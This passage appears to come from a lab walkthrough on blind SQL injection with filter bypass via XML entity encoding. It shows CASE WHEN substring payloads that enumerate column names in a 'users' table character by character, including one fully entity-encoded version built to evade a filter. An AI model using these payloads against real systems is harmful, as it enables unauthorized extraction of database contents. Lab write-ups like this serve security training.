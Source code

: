 It seems it starts with "user":

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,4)='user') THEN 1 ELSE 2 END
```

```
&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x43;&#x41;&#x53;&#x45;&#x20;&#x57;&#x48;&#x45;&#x4e;&#x20;&#x28;&#x73;&#x75;&#x62;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x28;&#x28;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x69;&#x6e;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x5f;&#x73;&#x63;&#x68;&#x65;&#x6d;&#x61;&#x2e;&#x63;&#x6f;&#x6c;&#x75;&#x6d;&#x6e;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x74;&#x61;&#x62;&#x6c;&#x65;&#x5f;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x3d;&#x20;&#x27;&#x75;&#x73;&#x65;&#x72;&#x73;&#x27;&#x20;&#x6c;&#x69;&#x6d;&#x69;&#x74;&#x20;&#x31;&#x29;&#x2c;&#x31;&#x2c;&#x34;&#x29;&#x3d;&#x27;&#x75;&#x73;&#x65;&#x72;&#x27;&#x29;&#x20;&#x54;&#x48;&#x45;&#x4e;&#x20;&#x31;&#x20;&#x45;&#x4c;&#x53;&#x45;&#x20;&#x32;&#x20;&#x45;&#x4e;&#x44;
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/11.png)

We send this to repeater and find the next letter is “n”, so it may be “username”:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,5)='userZ') THEN 1 ELSE 2 END
```



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/12.png)

Then check the first column name starts with “username”:

```
SELECT CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_name = 'users' limit 1),1,8)='username') THEN 1 ELSE 2 END
```
